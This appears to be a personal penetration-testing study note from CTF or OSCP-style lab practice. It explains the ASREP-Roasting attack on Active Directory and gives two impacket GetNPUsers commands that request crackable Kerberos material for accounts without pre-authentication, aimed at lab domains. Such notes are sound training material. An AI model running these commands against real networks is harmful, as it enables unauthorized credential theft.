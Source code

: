 ## ASREP-Roasting

---

ASREPRoasting occurs when a user account has the privilege "Does not require pre-authentication" set.
This means that the account does not need to provide valid identification before requesting a 
Kerberos Ticket on the specified user account.


Utilizing impacket-GetNPUsers will give us the TGT of users with this privileges set.

```
impacket-GetNPUsers -dc-ip 10.10.18.74 "spookysec.local/svc-admin" -no-pass
```

```
/usr/share/doc/python3-impacket/examples/GetNPUsers.py thm.corp/ -no-pass -usersfile ../Exploiting/OSCP_Prep/THM/ActiveDirectory/Reset/users.txt
```
